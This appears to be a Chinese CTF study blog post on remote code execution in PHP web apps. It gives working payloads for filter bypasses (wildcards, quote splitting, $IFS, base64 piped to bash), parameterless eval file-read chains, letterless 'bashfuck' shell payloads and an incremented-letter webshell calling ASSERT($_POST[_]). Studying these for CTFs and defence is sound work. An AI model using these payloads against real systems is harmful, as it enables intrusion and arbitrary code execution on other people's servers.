---
title: "对于RCE和文件包含的一点总结"
date: 2025-04-16T11:27:31+08:00
summary: "随便写写"
url: "/posts/对于RCE和文件包含的一点总结/"
categories:
  - "对于RCE和文件包含的一点总结"
tags:
  - "RCE和文件包含"
draft: false
top: true
---

# 什么是RCE

RCE漏洞，即远程代码漏洞和远程命令执行漏洞，这种漏洞允许攻击者在后台服务器上远程注入操作系统命令或代码，从而控制后台系统。

在很多Web应用中，**开发人员**会使用一些**特殊函数**，这些函数以一些字符串作为输入，功能是将输入的字符串当作**代码**或者**命令**来进行执行。当**用户**可以控制这些函数的输入时（当应用程序未正确**验证**、**过滤**或**限制**用户输入时），就产生了RCE漏洞。

# **分类(远程代码和远程命令)**

1.命令执行漏洞：直接调用操作系统命令。例如，当Web应用在调用一些能将字符串转化成代码的函数时，如果未对用户输入进行合适的处理，可能造成命令执行漏洞。

2.代码执行漏洞：靠执行脚本代码调用操作系统命令。例如，PHP中的system()、exec()和passthru()函数，如果未对用户输入进行过滤或过滤不严，可能导致代码执行漏洞。

额外的:

3.系统的漏洞造成命令注入：例如bash破壳漏洞（CVE-2014-6271）是一个远程命令执行（RCE）漏洞。这个漏洞存在于Bash shell中，使得攻击者可以通过构造特定的环境变量值来执行任意命令，从而获取系统的控制权。。

4.调用的第三方组件存在代码执行漏洞：例如WordPress中用来处理图片的ImageMagick组件，以及JAVA中的命令执行漏洞（如struts2、ElasticsearchGroovy等）。

# RCE漏洞产生的条件

1. 存在可调用执行命令的函数
2. 函数参数可控
3. 应用程序未正确**验证**、**过滤**或**限制**用户输入

# RCE绕过bypass姿势

先说说一些命令函数

## **php执行系统命令函数**

- system : 执行外部程序，并且显示输出，如果 PHP 运行在服务器模块中， system() 函数还会尝试在每行输出完毕之后， 自动刷新 web 服务器的输出缓存。如果要获取一个命令未经任何处理的 原始输出， 请使用 passthru() 函数。
- exec ： 执行一个外部程序,回显最后一行,需要用echo输出。
- shell_exec ： 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
- popen ： 打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。
- proc_open ： 执行一个命令，并且打开用来输入/输出的文件指针。
- passthru ： 执行外部程序并且显示原始输出。同 exec() 函数类似， passthru() 函数 也是用来执行外部命令（command）的。 当所执行的 Unix 命令输出二进制数据， 并且需要直接传送到浏览器的时候， 需要用此函数来替代 exec() 或 system() 函数。 常用来执行诸如 pbmplus 之类的可以直接输出图像流的命令。 通过设置 Content-type 为 image/gif， 然后调用 pbmplus 程序输出 gif 文件， 就可以从 PHP 脚本中直接输出图像到浏览器。
- pcntl_exec() ： 在当前进程空间执行指定程序，当发生错误时返回 false ，没有错误时没有返回。
- `（反引号）：同 shell_exec()

## 绕过关键字黑名单

绕过文件名

- 通配符绕过

| *      | 匹配任何字符串／文本，包括空字符串；*代表任意字符（0个或多个） |
| ------ | ------------------------------------------------------------ |
| ?      | 匹配任何一个字符（不在括号内时）?代表任意1个字符             |
| [abcd] | 匹配指定字符范围内的任意单个字符                             |
| [a-z]  | 表示范围a到z，表示范围的意思                                 |

配符是由shell处理的, 它只会出现在 命令的“参数”里。当shell在“参数”中遇到了通配符时，shell会将其当作路径或文件名去在磁盘上搜寻可能的匹配：若符合要求的匹配存在，则进行代换(路径扩展)；否则就将该通配符作为一个普通字符传递给“命令”，然后再由命令进行处理。总之，通配符实际上就是一种shell实现的路径扩展功能。在 通配符被处理后, shell会先完成该命令的重组，然后再继续处理重组后的命令，直至执行该命令。

例如我们的flag.php文件，我们可以用fla*或者fla?????去进行模糊匹配，但是这里需要注意，如果目录中有flax这种类似也可以匹配上的文件，系统可能会无法正确做出匹配或者返回多个可以匹配上的文件，例如我们设置一个1.txt

```
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1????
123
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1*
123
```

如果我们加上一个1.php文件

```
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# vim 1.php
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1*
1
123
```

- 单引号双引号反引号绕过

对php来说这是fl""ag而不是flag关键字不会匹配上，但是对于linux系统来说cat /fl""ag等效于cat /flag。外面包裹的是单引号里面就是双引号，外面包裹的是双引号里面就是单引号，或者用斜线\进行转义，避免报错

```
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# ca''t 1.txt 
123
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# ca""t 1.txt 
123
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# ca``t 1.txt 
123
```

- 反斜杠绕过

linux看到反斜线\会自动帮你去掉,正常执行命令

例如`ca\t 1.php`

- $1到$9、$@和$*绕过

由于这些变量输出都为空，因此可以作为空格绕过

```
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1$1.php
1
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1$9.php
1
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1$@.php
1
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat 1$*.php
1 
```

- 变量拼接绕过

```.
a=c;b=a;c=t;$a$b$c //拼接
例如
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# a=c;b=a;c=t;
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# $a$b$c 1.php
1
也可以用.拼接
(sy.(ste).m)
```

- 利用base编码绕过

```
echo '(base64编码)' | base64 -d | bash
这里利用了管道符去逐个执行我们的命令，先base64编码输出，然后通过|管道符把上一个的输出作为下一个的输入，也就是base64 -d的输入，其中-d代表着解码，之后再把解码的内容传给bash，解码后的内容会被当成bash命令去执行
例如
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# echo 'Y2F0IDEucGhw' | base64 -d | bash
1
其中Y2F0IDEucGhw解码后是cat 1.php
当然这里也不一定需要bash，也可以直接用反引号内联执行
`echo 'Y2F0IDEucGhw' | base64 -d`
```

- 利用hex编码绕过

在Linux中，可以使用`xxd`命令对十六进制（hex）进行解码。

```
echo '(hex编码)' | xxd -r -p | bash
例如
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# echo '63 61 74 20 31 2e 70 68 70' | xxd -r -p | bash
1
其中63 61 74 20 31 2e 70 68 70就是cat 1.php的hex编码
```

## 特殊命令替换绕过

### 读文件命令cat

more：

- 用于分页查看文件内容。
- 支持通过空格键向下翻页，b键向上翻页，q键退出查看。
- 还可以搜索指定文本，并支持设置每屏显示的行数。

less：

- 类似于more，但功能更强大。
- 支持方向键上下滚动，空格向下翻页，b向上翻页。
- 可以显示行号，支持搜索指定字符串，并可以方便地查找和浏览文件内容。
- 使用q键退出查看。

head：

- 用于查看文件的开头部分。
- 默认显示文件的前10行，但可以通过指定参数来显示更多或更少的行数或字节数。
- 支持与其他命令结合使用，如管道命令。

sort：

- 用于对文本文件内容进行排序。
- 支持多种排序方式，如按字母、数字、逆序排序等。
- 还可以合并已排序的文件，删除重复行，以及检查文件是否已经排序。

tail：

- 用于显示文件的末尾内容。
- 默认显示文件的最后10行，但可以通过指定参数来显示更多行数。
- 支持实时追踪文件的变化，并持续显示新增的内容，适用于查看日志文件等动态更新的文件。

tac:

- 从最后一行开始显示，可以看成 tac 是 cat 的反向显示

## 绕过空格

- 大括号

```
{cat,flag.php}
在大括号中逗号会被看成是分隔符
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# {cat,1.php}
1
```

- 环境变量$IFS

在Linux中有一个环境变量叫IFS，为内部字段分隔符

```
$IFS$9 (1-9)
${IFS}
```

这里的`{}`是为了固定变量名，如果直接用$IFS的话可能会导致后面的内容一部分被当成环境变量名进行解析

$IFS$9后面加个$与{}类似，起截断作用，$9是当前系统shell进程第九个参数持有者始终为空字符串。

```
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat${IFS}1.php
1
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat$IFS1.php
cat.php: command not found
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot/156.238.233.87# cat$IFS$11.php
1
```

这里就可以看到我们第二种是错误的

- 重定向字符<，<>

重定向符号在Linux或Unix系统中用于控制命令的输入和输出。它可以将命令的输出发送到文件或从文件中获取输入。

**`<`**：从文件中获取输入，将文件内容作为命令的标准输入。

**`>`**：将命令的标准输出重定向到文件，如果文件不存在则创建，如果文件已存在则覆盖其内容。

- 编码字符绕过（在linux下不可行，需要在php环境下）

用%09，%20等可以表示成空的编码字符进行绕过

## 绕过分号

当过滤了分号的php环境中可以用`?>`去进行闭合php代码

# RCE命令执行的姿势

## 写入一句话木马

对于`eval($a)`因为在eval函数中的语句都会被当成php代码去执行

所以我们传入`$a=eval($_GET[1]);&1=phpinfo();`会发现可以成功执行phpinfo

## 短标签

`<?= ?>` 是 PHP 中的一种短标签，用于快速输出变量或表达式的值。这种标签是 `<?php echo ?>` 的简写形式。

利用短标签可以绕过对php的检查

注：对于 php 短标签的使用，对 php 的版本是有要求的

PHP5.4 及以前短标签是不总启用的，其启用与配置文件中的short_open_tag 选项有关

在 php5.4 版本以后，短标签是默认开启的，无需修改配置文件即可使用

## 内联执行

在 PHP 中，反引号（``）主要用于执行系统命令。使用反引号包围命令时，PHP 将会在操作系统上执行该命令，并返回命令的输出结果。

```
例如
`tac fla*`就是执行tac fla*的命令，然后将命令的结果返回
```

## 关于eval中有echo的限制

这个思路起源于web41，源代码是这样的

```php
eval("echo($c);");
```

这时候我们如果直接传入php代码的话会发现他会全部输出而不是执行代码，并且这里是放入这个`$c`变量而不是直接拼接，导致了我无法使用闭合去绕过echo，此时我就想到了一个关于函数调用符号`()`的一个优先级问题

```php
<?php
echo (system)('whoami'); 
```

此时会发现居然执行了whoami命令，这是因为函数调用操作符会将字符串 `"system"` 转换为可调用的函数，例如我们用phpinfo也是一样的

```php
<?php
echo (phpinfo)();
```

所以这个思路也是一个可以绕过echo的思路

## eval中无参数RCE

假如我们有下面这段代码

```php
<?php 
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
```

正则表达式 `[^\W]+\((?R)?\)` 匹配了一个或多个非标点符号字符（表示函数名），后跟一个括号（表示函数调用）。简而言之，无参数rce就是不使用参数，而只使用一个个函数最终达到目的。

这种情况下我们传入的函数只能是没有参数的函数例如phpinfo()这类的

什么是无参数呢？

顾名思义就是无参数的函数，只使用函数且函数不能带有参数，这里的最大限制在于我们选择的函数必须参数为空或者只有一个参数，此时内层函数的返回值就可以作为外层函数的参数进行递归套用

php常用内置无参函数：

```
get_defined_vars() -  返回由所有已定义变量所组成的数组
phpinfo() -显示php详细内容
```

### 查看当前目录文件名

最常见的就是

```
print_r(scandir(getcwd()))
getchwd() 函数返回当前工作目录。不需要参数
scandir() – 将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称（glob()可替换）需要参数
```

#### 方法一：localeconv()函数

怎么构造参数里的小数点呢？

```
localeconv()函数：返回一个包含本地数字及货币格式信息的数组 第一个是.
```

怎么获取到第一个数组的值(.)呢？

- 最终的payload

```
1.print_r(scandir(current(localeconv())));
2.print_r(scandir(pos(localeconv())));
3.print_r(scandir(reset(localeconv())));
```

current()函数：读取数组的第一个元素

print_r可以用var_dump代替,current可以用pos和reset代替

pos — current() 的别名

reset()该函数返回数组第一个单元的值，如果数组为空则返回 FALSE

我们举个例子

如果我们想要返回当前目录下的所有文件和目录，就需要用到scandir()函数，但是这个函数需要一个参数`$directory`去指定要扫描的目录路径。所以我们需要`scandir('.')` 函数调用会扫描当前目录，那么我们怎么去构造这个小数点呢？这里就需要用到能返回小数点的函数localeconv()，localeconv()的数组的第一个就是小数点，然后我们通过current()函数去读取数组的第一个元素，这样就能构造一个小数点，结合这些我们的payload构造就是

```
scandir(current(localeconv()))
```

然后使用一个输出函数去将结果输出

```
var_dump(scandir(current(localeconv())))
```

实操一下

先看一下localeconv下的数组内容

```
?a=var_dump(localeconv());
```



可以看到第一个确实是小数点，我们试着返回这个小数点

```
?a=var_dump(current(localeconv()));
```



能返回小数点，那就试着读取一下当前目录

```
?a=var_dump(scandir(current(localeconv())))
```




能正常返回，但是这里为什么第一个和第二个是小数点呢？因为在文件系统中，`.` 代表当前目录，`..` 代表父目录。使用 `scandir()` 函数扫描目录时，会自动包含这两个目录项

#### 方法二：chr(46)

```
chr(46)`就是字符`"."
怎么构造46呢？
rand()函数：返回一个随机数
1.chr(rand())//不实际，得看运气
2.chr(time())
chr()函数以256为一个周期，所以chr(46),chr(302),chr(558)都等于"."。所以使用chr(time())，一个周期必定出现一次"."
```

#### 方法三：phpversion()函数

参考文章：[无参数读文件和RCE总结](https://zhuanlan.zhihu.com/p/157431794)

```
这个方法比较撇，所以如果其他方法行不通再用这个方法
phpversion()`返回PHP版本，如`5.5.9
floor(phpversion())返回 5

sqrt(floor(phpversion()))返回2.2360679774998

tan(floor(sqrt(floor(phpversion()))))返回-2.1850398632615

cosh(tan(floor(sqrt(floor(phpversion())))))返回4.5017381103491

sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))返回45.081318677156

ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))返回46
chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))返回"."
```

#### 方法四：crypt()函数

`hebrevc(crypt(arg))`可以随机生成一个hash值，第一个字符随机是`$`(大概率) 或者 `"."`(小概率) 然后通过`chr(ord())`只取第一个字符，ord()函数可以返回字符的ASCII值

所以最后的payload就是

```
print_r(scandir(chr(ord(hebrevc(crypt(time()))))));//还是概率事件，多尝试几次
```

### 读取当前目录文件 

我们前面成功的返回了目录下的文件名，但是文件是不会直接显示的，所以我们还想需要使用函数去读取文件

前面的方法输出的是数组，文件名是数组的值，那我们要怎么取出想要读取文件的数组呢

#### 操作数组的函数

```
end() ： 将内部指针指向数组中的最后一个元素，并输出
next() ：将内部指针指向数组中的下一个元素，并输出
prev() ：将内部指针指向数组中的上一个元素，并输出
reset() ： 将内部指针指向数组中的第一个元素，并输出
each() ： 返回当前元素的键名和键值，并将内部指针向前移动
pos() ： 返回数组中的当前单元, 默认取第一个值
current() ：读取数组的第一个元素
array_rand() 函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。
array_flip()函数用于反转/交换数组中所有的键名以及它们关联的键值。
array_slice() 函数在数组中根据条件取出一段值，并返回。
array_reverse() 函数返回翻转顺序的数组。
```

#### 读取文件的函数

```
file_get_contents()[需要查看源代码],highlight_file()、show_source()、readfile()[需要查看源代码]：读取文件内容
readgzfile()也可读文件，常用于绕过过滤
```

例如在一道题目中有index.php



是数组的最后一个元素，我们用end()函数，最终的payload就是

#### end()函数读取最后一个文件

```
highlight_file(end(scandir(current(localeconv()))));
show_source(end(scandir(current(localeconv()))));
readfile(end(scandir(current(localeconv()))));
等都可以
```

或者我们也可以用array_reverse()函数翻转数组

#### array_reverse()函数翻转数组

```
highlight_file(current(array_reverse(scandir(current(localeconv())))));
```

如果是第二个我们可以用next移动指针指向第二个

#### next()函数移动指针

```
show_source(next(array_reverse(scandir(getcwd()))));
```

如果不是数组的第一第二个呢？

### 读取非第一第二文件

我们可以使用`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`函数返回数组中的随机键名

```
var_dump(array_rand(array_flip(scandir(current(localeconv())))));//返回文件名
highlight_file(array_rand(array_flip(scandir(current(localeconv())))));//读取文件
```

（这些读取文件的payload都可以自己结合前面总结的构造`"."`的方法切合实际过滤情况读取)

### 查看上级目录文件名

#### 方法一：dirname()函数

- dirname() 函数返回路径中的目录部分。需要参数

例如

```php
<?php
print_r(dirname('/var/www/1.php'));
#
/var/www
```

如果传入的值是绝对路径（不包含文件名），则返回的是上一层路径，传入的是文件名绝对路径则返回文件的当前路径

例如我们题目中

```php
print_r(dirname(getcwd()));
/var/www
```

所以我们如果希望读取上级目录的话

```
print_r(scandir(dirname(getcwd())));
```

#### 方法二：构造`..`

其实我们在了解scandir函数的时候就知道，`scandir()` 函数扫描目录时，会自动包含`.`和`..`这两个目录项，`.` 代表当前目录，`..` 代表父目录，所以我们返回的数组的第二个就是`..`，那么我们可以使用next()函数操作指针去获取`..`

```
print_r(next(scandir(getcwd())));//返回..
```

然后我们再用scandir去获取目录

```
print_r(scandir(next(scandir(getcwd())));//查看上级目录
```

### 读取上级目录文件

其实是和之前讲的读取目录文件是一样的，只不过我们需要改变当前工作目录为上级目录而已，所以payload有

```
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
show_source(array_rand(array_flip(scandir(next(scandir(getcwd()))))));
```

但是这里切换路径后`getcwd()`和`localeconv()`不能接收参数，因为语法不允许，我们可以用之前的`hebrevc(crypt(arg))`

这里`crypt()`和`time()`可以接收参数，于是构造

```
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
或更复杂的：
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
还可以用：
show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
```

### 查看和读取根目录文件

```
print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));
```

`strrev(crypt(serialize(array())))`所获得的字符串第一位有几率是`/`

```php
<?php
print_r(chr(ord(strrev(crypt(serialize(array()))))));
/
```

所以使用以上payload可以查看根目录文件



但是有权限限制，linux系统下需要一定的权限才能读到，所以不一定成功

读根目录文件：(也是需要权限)

和前面的一样，但是同样的对于权限有限制，这个我前几天打TGCTF就碰到这种情况了

```
highlight_file(array_rand(array_flip(scandir(chr(ord(strrev(crypt(serialize(array())))))))));
```

### glob伪协议查看文件

`glob` 伪协议是 PHP 中用于匹配文件路径的一种便捷方式。它基于 **glob 模式**（类似于 shell 中的通配符匹配），可以用来查找符合特定模式的文件或目录。

**`glob` 伪协议的基本用法**

```
glob://<pattern>
```

- **`<pattern>`**：是一个 glob 模式，用于匹配文件或目录路径。
- 支持的 glob 通配符：
  - `*`：匹配任意数量的字符（包括空字符）。
  - `?`：匹配单个字符。
  - `[...]`：匹配指定范围内的字符（如 `[a-z]` 匹配小写字母）。
  - `{a,b,c}`：匹配多个模式中的一个（如 `{jpg,png,gif}` 匹配 `jpg`、`png` 或 `gif`）。

用法

- 查找当前目录下的所有 `.txt` 文件

```
$files = glob("*.txt");
print_r($files);
```

- 使用 `glob` 伪协议读取匹配的文件内容

```
$pattern = "glob://*.txt"; // 匹配当前目录下的所有 .txt 文件
$files = glob($pattern);
echo $file
```

拿一道ctf的题目讲一下

web72

目录文件扫描

```
传入
c= ?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0); ?>
分解一下
c=?><?php $a=new DirectoryIterator("glob:///*");//*创建一个DirectoryIterator对象，遍历根目录*

foreach($a as $f)//*// 遍历每个条目*

{

   echo($f->__toString().' ');//*// 输出条目的名称，并添加一个空格*

}

exit(0);

?>
```

### 利用session进行无参数RCE

使用条件：当请求头中有cookie时（或者走投无路手动添加cookie头也行，有些CTF题不会卡）

 首先我们需要开启session_start()来保证session_id()的使用，session_id可以用来获取当前会话ID，也就是说它可以抓取PHPSESSID后面的东西，但是phpsession不允许()出现

这样的话我们就可以在cookie中设置phpsession为想要读取的文件名，然后payload设置成

```
传参readfile(session_id(session_start()));
设置Cookie: PHPSESSID=flag.php
```

### 利用请求头进行无参数RE

getallheaders()返回当前请求的所有请求头信息，如果我们在请求头中写入恶意代码，然后再将指针指向最后一个请求头让他执行，那么也可以达到一个无参数RCE的效果



`getallheaders()`是`apache_request_headers()`的别名函数，但是该函数只能在`Apache`环境下使用

如果能返回请求头，接下来利用方式就多了，任何`header`头部都可利用

当确定能够返回时，我们就能在数据包最后一行加上一个请求头，写入恶意代码，再用end()函数指向最后一个请求头，使其执行，payload：

```lisp
var_dump(getallheaders());
然后在请求包最后一行中加入请求头=phpinfo();进行测试
eval(pos(getallheaders()));
因为是倒序的，所以
```

### 利用全局变量进行无参数RCE

get_defined_vars()可以回显全局变量$_GET、$_POST、$_FILES、$_COOKIE

返回数组顺序为$_GET-->$_POST-->$_COOKIE-->$_FILES

假如一个题目中只有一个参数a，我们可以多加一个参数b，然后写入命令执行语句

payload

```
a=eval(end(current(get_defined_vars())));&b=system('ls /');
```

把eval换成assert也行 ，能执行`system('ls /')`就行

## system中无字母RCE

什么是无字母rce呢，题目代码如下

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/[a-z]/i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

题目只是过滤了字母而没过滤数字，这时候又该怎么绕过呢？

### **使用/bin目录下的可执行程序**

**base64程序查看flag.php**

尝试使用/bin目录下的可执行程序。

```
?c=/bin/base64 flag.php
```

但是过滤了字母，那么我们用通配符?绕过，下面会详细讲解

替换后变成

```
?c=/???/????64 ????.???
```

积累题型，最近碰到了一道题，是XYCTF2024的题目，具体代码如下

```php
<?php
highlight_file(__FILE__);
function waf($cmd){
    $white_list = ['0','1','2','3','4','5','6','7','8','9','\\','\'','$','<']; 
    $cmd_char = str_split($cmd);
    foreach($cmd_char as $char){
        if (!in_array($char, $white_list)){
            die("really ez?");
        }
    }
    return $cmd;
}
$cmd=waf($_GET["cmd"]);
system($cmd);
```

这里给出了白名单，要求我们传入的$cmd参数的每个字符都符合白名单规定的内容，否则就会执行die()语句，这时候我们可以用什么方法呢?

第一个就是bashfuck

### bashfuck实现无字母RCE

参考文章：[【bashfuck】bashshell实现无字母命令执行的构造原理](https://blog.csdn.net/qq_35251017/article/details/129501373)

其实这里还是有限制的，取决于Linux的系别，在debian系操作系统中，sh指向dash；在centos系操作系统中，sh指向bash

#### 数字编码执行RCE

首先我们知道，在终端中，`$'\xxx'`可以将八进制ascii码解析为字符，所以我们可以尝试通过八进制将我们的命令进行转码去绕过字母或者关键字的限制

根据**Bash 的 `$'...'` ANSI-C Quoting 机制**，`$'...'` 会在 **Shell 解析阶段**（执行命令前）把 `\xxx`（八进制）转换成 **对应的 ASCII 字符**。所有 **`$'\xxx'` 拼接后**，最终会合并为 **可执行的 Shell 命令**

我们终端测试一下



`\154\163`是`ls`的八进制表示。

但是注意，如果为连续的一串`$'\xxx\xxx\xxx\xxx'`形式，则我们无法执行带参数的命令。这是为什么呢？

Shell 仅将 `$'\xxx\xxx...'` 视为 **单字符串（一个参数）**，而不是 **可执行命令**，它并不会对参数进行分割，在Bash中，单词分割是一种将参数扩展、命令替换和算术扩展的结果分割成多个单词的过程，它发生在双引号之外，并且受到IFS变量的影响。

如果一个字符串包含空格或其他IFS字符，它会被分割成多个单词，每个单词作为一个独立的参数传递给命令。

但因为八进制转义序列是在命令行解析之前就执行的，所以它不会触发单词分割

然后我们再来关注一下Linux Bash Shell的Here string语法

#### Linux Bash Shell的Here string语法

在 Bash Shell 中，**Here String**（`<<<`）是一种将 **单行字符串** 标准输入（stdin）传递给命令的方法。

基本语法

```
command <<< "STRING"
```

- `<<<`：Here String 操作符
- `"STRING"`：要传递给 `command` 的输入内容

例如

```
cat <<< "hello"   # 相当于 echo "hello" | cat
```

然后我们需要关注另一个点，就是`$0`变量

#### `$0`变量

`$0` 是一个特殊的变量，表示当前正在执行的脚本(或者是当前的 shell)的文件名

```
root@VM-16-12-ubuntu:/var/www/html# echo $0
bash
```

然后是 <<< ，是一种操作符，用于将字符串作为输入传递给命令

- `<<<` 是 **Here String** 语法，可以将字符串直接传递给命令的标准输入（stdin）。

所以我们试一下

```
root@VM-16-12-ubuntu:/var/www/html# $0<<<'id'
uid=0(root) gid=0(root) groups=0(root)
```

这里的命令就相当于

```
echo 'id' | $0
```

如果`$0`是`/bin/bash`，那么就会尝试执行这个命令

那我们试着执行命令ls

```
?cmd=$0<<<$%27\154\163\040\057%27
等价于
echo 'ls /' | /bin/bash
```

如果 `bash` 读取标准输入时自动解析 `\` 转义，才会触发命令执行漏洞，其实这里还取决于服务器的shell配置

但是这里是在终端去进行测试的，在终端中`$0`其实就是bash本身，但是在环境中我们往往需要寻找如何构造`$0`，或者说有些题目如果过滤了0，该如何构造0

#### 构造$0

我们可以使用变量赋值，或者特殊变量构造

- `${#}`表示接受参数个数，在终端中参数为空 值为 0
- `${?}`表示上一条命令的退出状态，如果上一条命令异常 `${?}`值为1，如果正常退出则为0
- `${_}`表示上一个命令的最后一个参数。(如果上一个指令的输出是`0`的话，就能构造出sh了）

如果是变量赋值的话

```
${!xxx}//它表示用xxx的值作为另一个变量的名字，然后取出那个变量的值。
```

本地测试一下

```
root@VM-16-12-ubuntu:/var/www/html# a=0
root@VM-16-12-ubuntu:/var/www/html# echo $a
0
root@VM-16-12-ubuntu:/var/www/html# echo ${!a}
bash
```

成功拿到0，所以我们只需要一个变量值为0的变量，就可以拿到sh，然后我们看一下bashfuck的三种payload

```
//bash_x
Command:ls
Charset : # $ ' ( ) 0 1 < \
Total Used: 9
Total length = 69
Payload = $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
$(( $((1<<1))#10011010 ))---># 2#10011010 = 154（十进制）
$(( $((1<<1))#10100011 ))  # 2#10100011 = 163（十进制）
---------------------------
Charset : # $ ' ( ) 0 < \ { }
Total Used: 10
Total length = 117
Payload = $0<<<$0\<\<\<\$\'\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}0${##}000${##}${##}))\'
---------------------------
Charset : ! # $ ' ( ) < \ { }
Total Used: 10
Total length = 147
Payload = ${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
```

使用`$(($((1<<1))#binary))`来表示任意数字，然后构造八进制转义。

```
而在上面的基础上，我们用 ${##} 来替换 1 ，用 ${#} 来替换 0
```

就有了二三两种payload

然后将命令传入`$0`

这个师傅很厉害，写了一个针对Linux终端 bashshell 的无字母命令执行的骚操作x的工具[bashFuck](https://github.com/ProbiusOfficial/bashFuck)

目前可以实现的字符集：

- `#` `$` `'` `(` `)` `0` `1` `<` `\` (9 Charset)
- `#` `$` `'` `(` `)` `0` `<` `\` `{` `}` (10 Charset)
- `!` `#` `$` `'` `(` `)` `<` `\` `{` `}` (10 Charset)
- `!` `$` `&` `'` `(` `)` `=` `< ` `\` `_` `{` `}` `~` (13 Charset)

## eval中无数字字母RCE(基础)

参考的是 P 神的文章[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

什么是无数字字母RCE呢？具体题目代码如下

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
if(!preg_match('/[a-z0-9]/is', $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
}
?>
```

常规的无数字字母RCE主要有三种方式：

1. 异或
2. 自增
3. 取反

一般当我们测出来过滤了数字字母之后，常规的函数套用和绕过都被限制住了，这时候又该怎么getshell呢？

首先我们要明确无数字字母RCE的思路就是两点

- 通过非数字字母的字符经过各式各样的变换，最终能构造出我们需要的字母和数字

- PHP**可变函数**执行的特点，意思就是我们可以通过变量来调用函数，可以通过将函数名存储在变量中，然后使用该变量来调用函数

所以核心目的就是利用非数字字母的字符去构造函数，然后进行动态函数的执行

### 自增构造

首先我们先了解一下在php中的自增规则




所以我们这里只要拿到了一个变量值为a，那么就可以通过自增操作去构造出其他的字母，从而进行函数的构造，但是这个a怎么去拿呢？

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值返回为`Array`，Array的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。


这里可以看到返回了一个Array，然后我们取第一个字符串就能拿到大写字母A了，然后我们试着构造一个assert(因为php是大小写不敏感的，所以不需要额外获取小写a)

```php
<?php

//构造ASSERT($_POST[_]);
$_=[];
$_=''.$_;//$_变成Array
$_=$_['!'==' '];//利用布尔表达式返回[0]然后取出第一个字符A
$___=$_;//存储A
$__=$_;//操作A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造S
$___.=$__;//存储为AS
$___.=$__;//存储为ASS
$__=$_;//初始化为A
$__++;$__++;$__++;$__++;//构造E
$___.=$__;//存储为ASSE
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造R
$___.=$__;//存储为ASSER
$__++;$__++;//构造T
$___.=$__;//存储为ASSERT
$____='_';//构造下划线
$__=$_;//初始化为A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造P
$____.=$__;//存储为_p
$__=$_;//初始化为A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造O
$____.=$__;//存储为_PO
$__++;$__++;$__++;$__++;//构造S
$____.=$__;//存储为_POS
$__++;//构造T
$____.=$__;//存储为_POST
$_=$$____;//存储为$_POST
$___($_[_]);//ASSERT($_POST[_])
?>
```

其实只要能拿出一个大写字母A就可以通过自增构造出来了，我们本地测试一下

